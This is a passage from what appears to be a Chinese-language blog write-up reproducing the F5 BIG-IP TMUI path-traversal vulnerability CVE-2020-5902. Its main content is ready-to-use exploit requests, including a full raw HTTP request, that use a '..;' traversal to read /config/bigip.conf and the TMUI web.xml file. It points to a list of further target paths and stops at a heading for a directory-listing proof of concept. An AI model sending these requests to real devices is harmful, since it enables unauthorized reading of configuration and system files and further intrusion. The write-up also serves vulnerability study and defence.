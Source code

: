 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHuU07gS9hfyHyeGgziaFVicvEDqAUOTuxmcicau9wFIqpdF6a5N1SQ5tGg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHX66smibyrGHl9ffan8OEcbfSxiaORSF6pLiaR8H4IulxXZIFKAia3UXwUw/640?wx_fmt=png "")  
  
  
在这里本来还打算读取config/bigip.conf的，结果发现没有读取  
权限  

```
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHAJOHRJ3FkHE5PfCwCX4Ds601RU5uHbRQZ7eq4m4ibOicibNw4e8exxJkQ/640?wx_fmt=png "")  
  
直接读取tmui的web.xml文件：  

```
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/usr/local/www/tmui/WEB-INF/web.xml
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHK26swic8GQsyRZwSUOts2XwxCKhxTFx7PTyqJLtpRWttHbNJia4iaNOaw/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/usr/local/www/tmui/WEB-INF/web.xml HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```

  
其它路径可以参考：  
  
https://github.com/Al1ex/CVE-2020-5902/blob/master/common_path.txt  
###### 列目录项  
  
POC:  
